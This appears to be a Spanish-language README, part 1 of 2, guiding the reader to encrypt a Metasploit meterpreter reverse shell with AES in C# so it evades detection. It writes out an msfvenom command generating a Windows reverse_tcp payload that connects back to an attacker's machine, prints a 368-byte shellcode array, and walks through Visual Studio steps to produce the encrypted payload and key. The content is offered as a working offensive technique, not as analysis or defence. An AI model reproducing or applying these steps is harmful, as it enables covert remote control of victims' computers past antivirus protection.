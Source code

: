 # Ofuscar-shell-meterpreter-en-AES PARTE 1 DE 2 
Este es un codigo en c# en cual encripta un shell creada con msfvenom en formato csharp 
!! necesitamos usar visual studio code 2015 - 2022 !!
1. tenemos que abrir un nuevo proyecto de windows form en csharp 
2. despues de abirse hay que eliminar el windows form
3. configuramos las propiedasdes dandole click, en la parte de Output type necesitamos cambiar a "Console Aplication"
4. En la parte del targetFramework escogemos .NET Framework 4.7.2 
5. ![imagen](https://github.com/Cristian-M0ntes/Ofuscar-shell-meterpreter-en-AES/assets/79603479/3a7a93c5-8c04-454c-9949-4ea0a62f22dc)
6. abrimos el programa.cs donde pondremos el codigo ofuscar-shell-meterpreter-en-AES
7. vamos a msfvenom y creamos una shell reversa con el siguiente comando

        sudo msfvenom -p windows/meterpreter/x64/reverse_tcp LHOST=<TU IP DE LA MAQUINA ATACANTE> LPORT=4444 -f csharp > payload

        cat payload
9. al hacer cat del archivo veremos algo parecido a esto


            byte[] shellcode_metasploit_aes = new byte[368] { 0xda, 0xe1, 0x9f, 0x6b, 0x10, 0xa7, 0x69, 0x3d, 0xe5, 0x33, 0xf5, 0xed, 0x5c, 0x0a, 0x9a, 0x13, 0x04, 0xa2, 0xea, 0xd1, 0x28, 0xf0, 0xc3, 0xda, 0x3b, 0x3c, 0x80, 0x61, 0xc8, 0x52, 0xd8, 0xaa, 0x4c, 0x3e, 0xd5, 0xef, 0xd0, 0xa3, 0x53, 0x21, 0x74, 0xfc, 0xa3, 0x21, 0x90, 0x2c, 0x46, 0xdd, 0xed, 0x1d, 0x50, 0xf6, 0x7b, 0x4e, 0xb6, 0x87, 0x50, 0x5a, 0x40, 0x9b, 0xcb, 0x72, 0x21, 0x22, 0xee, 0x68, 0xd6, 0x64, 0xf8, 0x4f, 0xe2, 0xed, 0x97, 0x53, 0x9f, 0x72, 0x48, 0x1e, 0x8d, 0x38, 0xbc, 0x05, 0x6b, 0x63, 0x7c, 0x85, 0x26, 0x3b, 0x43, 0x4e, 0x24, 0x70, 0xb9, 0x13, 0xac, 0x9d, 0x18, 0x5d, 0xf6, 0x3e, 0x6a, 0xf5, 0x5e, 0xbd, 0x8e, 0x55, 0xc6, 0x4c, 0x45, 0x7b, 0x4d, 0x32, 0xc5, 0x56, 0x31, 0x81, 0xeb, 0x96, 0xfd, 0x4a, 0x49, 0xfa, 0xd2, 0x0c, 0x56, 0x1b, 0xf2, 0xe1, 0x44, 0xce, 0x5a, 0xdc, 0x36, 0x17, 0xf5, 0x87, 0x52, 0x4e, 0xe9, 0xf1, 0x09, 0x28, 0x90, 0xe2, 0x5f, 0x2f, 0x66, 0x64, 0x36, 0x4e, 0x60, 0x36, 0x84, 0x90, 0x45, 0x95, 0x23, 0xe6, 0x4e, 0xf4, 0xf1, 0xd9, 0x90, 0x2b, 0x8e, 0x91, 0xe1, 0x24, 0x2b, 0xc8, 0xdd, 0xc0, 0xf6, 0x4c, 0x95, 0x61, 0xa3, 0xeb, 0x37, 0x75, 0xed, 0x17, 0x44, 0xa2, 0x06, 0xbd, 0x9a, 0x16, 0x0f, 0xfc, 0x9a, 0x57, 0xe2, 0xbe, 0xd2, 0x82, 0xec, 0x8c, 0x79, 0x32, 0x72, 0xd0, 0x3a, 0x68, 0x9f, 0x35, 0xa8, 0x85, 0x6b, 0x3c, 0xd9, 0x37, 0x98, 0xbd, 0xfd, 0xdc, 0x55, 0xa4, 0x4b, 0xd8, 0xf2, 0x59, 0x9c, 0x7d, 0xec, 0xf2, 0x35, 0xbe, 0xb3, 0xaa, 0x7f, 0x9a, 0x86, 0xf6, 0x7a, 0x42, 0xcf, 0xb2, 0xaa, 0xc3, 0x58, 0xa1, 0xb2, 0x0a, 0x57, 0xd2, 0x75, 0x7b, 0x2f, 0x1d, 0x71, 0x7c, 0xf1, 0x63, 0x24, 0x64, 0x6f, 0x38, 0x3c, 0x37, 0x93, 0xda, 0x7e, 0x74, 0x7c, 0x59, 0x04, 0xe1, 0x9c, 0x99, 0xb6, 0x2f, 0xe8, 0x52, 0xc9, 0x91, 0x34, 0x30, 0xaa, 0xa9, 0x71, 0xcf, 0xe5, 0xcf, 0x21, 0xc5, 0x17, 0x4d, 0xfb, 0x6e, 0x89, 0xe5, 0x88, 0x09, 0xe4, 0x50, 0x2e, 0x4c, 0x50, 0x32, 0x85, 0x7a, 0x77, 0x74, 0xd3, 0xfb, 0x86, 0xa9, 0x75, 0x50, 0xf7, 0x80, 0xb8, 0xca, 0x69, 0x5a, 0xe8, 0xed, 0xb5, 0xec, 0x5a, 0x53, 0x57, 0xf7, 0xde, 0xa8, 0xe6, 0xbf, 0x41, 0xbb, 0x46, 0x5f, 0x07, 0x07, 0x54, 0x4c, 0xbd, 0xb5, 0x86, 0xd2, 0x9e, 0x9f, 0x9c, 0x7d, 0x52, 0x5a, 0x09, 0x87, 0xa2, 0x9f, 0x2e, 0xcb, 0x6d, 0xdd, 0xd3, 0xf0, 0xb0, 0x24, 0xfe, 0x19, 0x61, 0x89, 0x29, 0x76, 0x42, 0xee, 0xfa, 0x81 };
10. este seria nuestro payload 
11. ahora remplazamos nuestro payload por el que se encuentra en ofuscar-shell-meterpreter-en-AES
12. si todo ha salido bien ejecutamos o usamos fn + f5 en mi cazo para iniciar la ejecucion del script que encriptara el reverse shell de metasploit
13. esto nos abrira la consola dandonos el codigo de arriba encriptado + una clave aleatoria que usaremos para poder desencriptar luego
14. guardamos los datos que nos entrego la consola

        seguir a la parte 2 de 2 

